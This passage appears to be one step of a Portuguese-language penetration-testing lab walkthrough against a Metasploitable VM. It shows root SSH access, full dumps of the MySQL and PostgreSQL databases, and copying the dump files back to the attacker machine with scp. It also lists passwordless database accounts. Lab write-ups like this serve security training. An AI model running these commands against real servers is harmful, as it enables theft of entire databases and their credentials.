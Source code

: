 # 05. Comprometendo banco de dados com SSH

Após conseguir o acesso ao SSH da nossa máquina alvo (leia <a href="/steps/03_ganhando_acesso_direto_ao_ssh.md">03. Ganhando acesso direto ao <b>SSH</b></a>), vamos obter as informações existentes em cada banco de dados existente na nossa máquina alvo.

Na etapa 1 (leia <a href="/steps/01_exploracao_com_nmap.md">01. Exploração com <b>NMAP</b></a>), descobrimos que existem 2 SGBD's rodando na nossa máquina alvo: o `MySQL` e o `PostgreSQL` (nas portas `3306` e `5432`, respectivamente).

Vamos fazer o dump de TODOS os bancos de dados existentes em cada SGBD e passar-los para nossa máquina para avaliação posterior de seus devidos valores. Vamos conectar como usuário `root` no SSH:

`$ ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa root@192.168.56.102`

Para fazer o dump do `MySQL` <i><b>INTEIRO</b></i>, executaremos o seguinte comando:

`root@metasploitable:~$ mysqldump -u root -p --all-databases > server_dump_mysql.sql`

No processo, irá pedir uma senha, mas não precisa digitar nada. Somente dê <i><b>ENTER</b></i> que o <i><b>DUMP</b></i> irá ser realizado.

Irei disponibilizar uma cópia bruta desse arquivo <a href="../files/server_dump_mysql.sql">nesse link aqui ;)</a>

Agora, para fazer o dump do `PostgreSQL`, precisamos executar uma etapa extra, pois o sistema operacional alvo só permite realizar o acesso ao banco pelo usuário `postgres`. Vamos mudar de usuário, pelo comando:

`root@metasploitable:~# su - postgres`

<b>VOALÁ</b>! - Agora conectados ao usuário `postgres`, vamos realizar o dump do `postgres`:

`postgres@metasploitable:~$ pg_dumpall > server_dump_postgres.sql`

Irei disponibilizar uma cópia bruta desse arquivo <a href="../files/server_dump_postgres.sql">nesse link aqui ;)</a>

E vamos mover o arquivo gerado para o usuário `root`, para ficar mais fácil a cópia dele para nossa máquina via SSH:

```
postgres@metasploitable:~$ pwd
/var/lib/postgresql
postgres@metasploitable:~$ exit
logout
root@metasploitable:~# mv /var/lib/postgresql/server_dump_postgres.sql server_dump_postgres.sql
```

`OBS: O comando pwd serve para retornar em qual diretório você se encontra naquele momento. :)`

Agora, vamos copiar cada arquivo para nossa máquina atacante:

```
$ scp -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa root@192.168.56.105:/root/server_dump_mysql.sql Documents/server_dump_mysql.sql
server_dump_mysql.sql                                                                                                                  100%  822KB  16.2MB/s   00:00
$ scp -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa root@192.168.56.105:/root/server_dump_postgres.sql Documents/server_dump_postgres.sql
server_dump_postgres.sql                                                                                                               100% 1724     1.3MB/s   00:00
```

Com esses arquivos em mãos, a gente consegue ter acesso a <i><b>muitas informações</b></i> comprometedoras e importantes para a continuação de nossos testes de vulnerabilidades.

Conseguimos ver que no `MySQL`, existem 3 usuários <i><b>(TODOS SEM SENHA)</b></i>, que são:

- `debian-sys-maint`
- `guest`
- `root`

E no `PostgreSQL`, existe somente o usuário `postgres` mesmo.

Iremos fazer a exploração de mais dados usando um outro serviço armazenado no servidor web dessa mesma máquina alvo, mas isso ficará para nossa próxima etapa. Vamos pra cima, o céu é o limite - Vamos para nossa próxima etapa!